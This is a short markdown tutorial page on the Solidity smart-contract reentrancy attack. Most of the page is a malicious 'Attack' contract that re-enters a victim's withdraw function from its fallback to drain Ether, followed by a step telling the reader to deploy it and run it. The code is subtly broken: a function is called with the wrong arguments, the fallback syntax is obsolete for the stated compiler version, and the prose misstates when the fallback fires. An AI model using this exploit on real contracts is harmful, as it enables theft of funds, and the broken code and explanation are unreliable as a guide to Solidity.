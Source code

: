 ```yaml
---
title: Solidity Reentrancy Attack
description: Reentrancy Attack is a typical vulnerability of the Solidity smart contracts involving withdraw and deposit in Solidity. 
tags:
    - Blockchain
    - Ethereum
refs:
    - https://hackernoon.com/hack-solidity-reentrancy-attack
date: 2023-09-27
draft: false
---
```


## Create a Malicious Contract

The **Attack** contract executes the following:

1. **Attack** contract deposits the address itself by invoking the Victim `deposit` function.
2. **Attack** contract calls the Victim `withdraw` function.
3. The **fallback** function of **Attack** contract is called and `withdraw` to send Ether to **Attack** contract.

```js
pragma solidity ^0.8.0;

contract Victim {
    function deposit(address _to) public payable;
    function withdraw(uint _amount) public;
}

contract Attack {
    Victim public victim;

    constructor(address _victimAddress) {
        // Instantiate a victim contract
        victim = Victim(_victimAddress);
    }

    function attack(uint v) external payable {
        // Deposit to this contract (Attack) address
        victim.deposit{value: v}(this);   // victim.deposit.value(v)(this);

        victim.withdraw();
    }

    // Fallback function will be called when `deposit` function of the Victim contract called and send Ether to this contract.
    function() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdraw();
        }
    }
}
```

After compiling, deploy it and run `attack` function to get balances of the victim contract.
